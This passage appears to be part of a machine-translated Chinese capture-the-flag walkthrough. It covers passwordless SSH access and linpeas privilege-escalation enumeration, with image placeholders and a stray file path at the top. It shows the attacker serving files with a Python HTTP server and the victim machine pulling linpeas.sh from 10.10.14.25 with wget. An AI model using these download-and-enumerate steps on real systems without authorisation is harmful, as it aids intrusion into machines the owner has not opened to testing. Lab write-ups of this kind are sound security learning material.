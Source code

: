 ![](img/9a7f3a6afd63bad750f6f62e2202e8d5.png)

无密码的 SSH 好用！

这就是设置无密码 ssh 的基本方法。

为了帮助我们的枚举，我决定使用`linpeas`。你可以在下面的链接中找到它。

[](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) [## Carlos polop/特权升级-牛逼-脚本-套件

### 在这里，您可以找到用于 Windows 和 Linux/Unix*的权限提升工具(在不久的将来也会用于 Mac)。这些…

github.com](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) 

为了将文件从我们的主机传输到机器上，我决定在我们的主机上设置一个简单的 HTTPServer，然后从受害者机器上远程获取文件

```
$ python -m SimpleHTTPServer 6969
```

*   攻击文件所在的机器

```
$ wget 10.10.14.25:6969/linpeas.sh
```

*   远程机器

![](img/63404ca21ed2feddb8d4e57e4cfe2b7f.png)
